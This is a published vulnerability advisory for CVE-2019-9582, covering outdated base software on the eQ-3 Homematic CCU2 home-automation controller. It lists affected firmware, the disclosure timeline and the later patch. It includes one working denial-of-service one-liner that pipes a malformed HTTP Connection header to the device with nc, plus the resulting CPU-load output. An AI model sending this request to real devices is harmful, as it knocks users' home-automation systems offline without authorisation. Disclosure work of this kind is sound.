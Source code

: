 ```yaml
---
layout: post
title:  "CVE-2019-9582 eQ-3 Homematic CCU2 outdated base software packages allows Denial of Service"
date:   2019-12-10 19:35:00 MET
author: 'psytester'
---
```


# Overview

- CVE: CVE-2019-9582
- Author: psytester
- Title: eQ-3 Homematic CCU2 outdated base software packages allows Denial of Service
- Vulnerability Type: CWE-400 Uncontrolled Resource Consumption
-	CVSSv3 Base Score: 7.5
-	CVSSv3 Vector: CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:H
- Publishing Date: 24.07.2019
- Updated: 10.12.2019
- Vendor: eQ-3 AG	
- Product: Homematic CCU2
- Vendor contacted: 29.01.2019
- Vendor confirmation: 27.04.2019
- Vendor patch: 2.49.17 since 09.12.2019
- Vendor Reference: [HMCCU-359] in changelog of CCU2
- Affected Firmware version: 2.35.16, 2.41.5, 2.41.8, 2.41.9, 2.45.6, 2.45.7, 2.47.10, 2.47.12, 2.47.15, 2.47.20 tested


# Background

From [vendor's website](https://www.eq-3.com/products/homematic/control-units-and-gateways/homematic-central-control-unit-ccu2.html):<br>
HomeMatic Central Control Unit CCU2

Homematic Central Control Unit is the central element of your Homematic system, offering a whole range of control, monitoring and configuration options for all the Homematic devices in your installation<br>
[....]<br>

Past [eQ-3 press release](https://www.eq-3.de/aktuelles/newsreader/eq-3-schliesst-sicherheitsluecken-in-der-ccu.html) about taking security updates seriously (in German only):<br>
[...]<br>
eQ-3 ist es wichtig, dass auch solche Lücken geschlossen werden, die für die meisten Installationen keine Rolle spielen.<br> 
[...]<br>
Obwohl nur Nutzer betroffen sind, die gegen Sicherheitshinweise von eQ-3 verstoßen oder seit mehreren Jahren keine Sicherheitsupdates installiert haben, gibt eQ-3 solchen Fällen hohe Priorität und behebt entsprechende Sicherheitslücken schnellstmöglich nach Bekanntwerden in neuen Software-Versionen und Hotfixes.<br>
[...]


# Issue Description

The analysis of the underlying operating system of the CCU2 revealed that the BusyBox version 1.20.2 from 2012 with a Buildroot 2012.08 is installed as embedded Linux and that other outdated software packages are also used.

Just to name a few:
```
Buildroot 2012.08
BusyBox: v1.20.2
OpenSSH: 6.0p1
wget: GNU Wget 1.13.4
lighttpd: 1.4.31
Up to CCU2 Firmware < 2.47.10: Java(TM) SE Embedded Runtime Environment (build 1.8.0_121-b13, profile compact3, headless)
Since CCU2 Firmware >= 2.47.10: Java(TM) SE Embedded Runtime Environment (build 1.8.0_201-b09, profile compact3, headless)
Tcl Tk: 8.2.3
....
```

After a search for already known CVE entries, the lighttpd process proved to be susceptible because of [CVE-2012-5533](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2012-5533=CVE-2012-5533).<br>

This vulnerability can be exploited by unauthenticated attackers with access to the web interface:
~~~shell
echo -ne "GET / HTTP/1.1\r\nHost: 1.2.3.4\r\nConnection: TC,,Keep-Alive\r\n\r\n" | nc 1.2.3.4 80
~~~
After that the lighttpd is permanently in 99% CPU load and the CCU2 does not react anymore with its ReGa core process because the resources are used up:
```
PID  PPID USER     STAT   VSZ %VSZ %CPU COMMAND
  321     1 root     R     5548   2%  99% /usr/sbin/lighttpd -f /etc/lighttpd/lighttpd.conf
```
Just a restart of lighttpd process seems to be not enough to fix the overload condition, a reboot is required.

There might be much more vulnerabilities, as written in my German [blog post](https://psytester.github.io/embedded_Linux_Busybox_Buildroot/) about outdated embedded Linux Busybox/Buildroot installations.

# CVE

[CVE-2019-9582](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-9582)

# CVSSv3 Base Score

CVSSv3 Base Score: 7.5

CVSSv3 Vector: CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:H

# Base software is updated now since December 2019
10 months later the software is almost up-to-date now and this CVE is fixed.
```
Buildroot: 2019.05
BusyBox: v1.30.1
OpenSSH: 7.9p1
wget: GNU Wget 1.20.3
lighttpd: 1.4.53
java version 1.8.0_201
```

BTW, this is strange but somehow expected. The newer CCU3 hardware has now an older software base line. ;-)
```
Buildroot: 2018.08.2
BusyBox: v1.29.2
OpenSSH: 7.8p1
wget: GNU Wget 1.19.5
lighttpd: 1.4.50
```

# Credit
All researchers.<br>
[cvedetails](https://www.cvedetails.com/) for scanning and preparing all CVEs, separated by vendor and product.<br>
me, but I simply scanned known CVEs to use them.

Not owning an original CCU2 or CCU3, but you want to analyze the CCU 'for free'?<br>
You can download<br>
[piVCCU](https://github.com/alexreinert/piVCCU) for running the original CCU3 Firmware in lxc container on RaspberryPi<br>
[RaspberryMatic](https://github.com/jens-maus/RaspberryMatic) for running the opensource OCCU based release on different boards<br>


# Disclaimer

The information provided is released "as is" without warranty of any kind. The publisher disclaims all warranties, either express or implied, including all warranties of merchantability. No responsibility is taken for the correctness of this information.
In no event shall the publisher be liable for any damages whatsoever including direct, indirect, incidental, consequential, loss of business profits or special damages, even if the publisher has been advised of the possibility of such damages.

The contents of this advisory are copyright (c) 2019 by psytester and may be distributed freely provided that no fee is charged for this distribution and proper credit is given.

